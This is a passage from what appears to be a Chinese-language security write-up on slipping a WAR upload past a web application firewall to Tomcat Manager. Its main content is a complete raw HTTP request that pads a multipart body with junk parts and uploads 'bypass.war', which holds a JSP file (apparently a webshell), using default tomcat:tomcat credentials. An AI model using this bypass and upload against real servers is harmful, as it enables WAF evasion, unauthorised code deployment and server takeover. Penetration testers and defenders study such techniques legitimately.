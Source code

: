 因此需要利用`multipart/form-data`的特性,添加垃圾数据块,使WAF无法对war包进行检测,同时tomcat不对垃圾数据进行处理,顺利部署war包

样例如下

```
POST /manager/html/upload;jsessionid=90151C6DAF8D510DF8E71D036D47F1F4?org.apache.catalina.filters.CSRF_NONCE=2812C24315E7A0FC3C55DB6D125DB7BC HTTP/1.1
Host: 192.168.89.129:8080
Content-Length: 1379
Cache-Control: max-age=0
Authorization: Basic dG9tY2F0OnRvbWNhdA==
Origin: http://192.168.89.129:8080
Upgrade-Insecure-Requests: 1
DNT: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryCYU5Y59MNL5BAit4
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.89.129:8080/manager/html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=90151C6DAF8D510DF8E71D036D47F1F4
Connection: close

------WebKitFormBoundaryCYU5Y59MNL5BAit4
Content-Disposition: form-data; name="asdf"; filename="qwer"
Content-Type: asdfqwer

aaaaaaaaaaaaaaaaaaaaaa
------WebKitFormBoundaryCYU5Y59MNL5BAit4
Content-Disposition: form-data; name="deployWar"; filename="bypass.war"
Content-Type: application/x-webarchive

PK��{U������������	��META-INF/���PK�����������PK��{U���������������META-INF/MANIFEST.MFMLK-.
K-*ϳR03r.JM,IMu	X)h%&*8%�krr�PKM7D���E���PK��]T���������������bp1.jspmTOkAStdllHWlBZ1KavwMvם4TU<x{[LƓ_D1d{/ۙkr$:Q+Ǹ֙(647L/F*W̼1q!73qk3)2D2ǽe<!d{E^GMvG+.\%q4yC\K5<hD9@8w.WkKlX2|*A9/|Tmp%5jpooNvSNǷO_><ڱ*`uơ1wy7|A\Jf۬pl$]#x5I2Ac)oK"3uQ+%ɄH2^#g@(\jnƇR9 ]bB3
L#g/WʗB-ã';oOQ"P+1'MeԲS
UxRMRMhJ2K2
+۲,Zr6ΗI;a0D9X3v&&'d׌h_;	c+b5	k	fBñv$5T(w?<lÏo`ӡ%td%\sIc6zuh' 	klK)fGtBXLfE
`+"`m2΢[6@spPKZV#o��d��PK���{U�����������	����������������META-INF/��PK���{UM7D���E����������������=���META-INF/MANIFEST.MFPK���]TZV#o��d������������������bp1.jspPK�������������
------WebKitFormBoundaryCYU5Y59MNL5BAit4--
```

当第一个垃圾数据块的长度超过WAF的处理能力时,部分的WAF会直接放行

![](https://img.mi3aka.eu.org/2022/08/e2c35ee5125a18195d99c3d81120f007.png)

![](https://img.mi3aka.eu.org/2022/08/877c0f42eda5391de3adcd6b954deeb9.png)


### 白名单

//TODO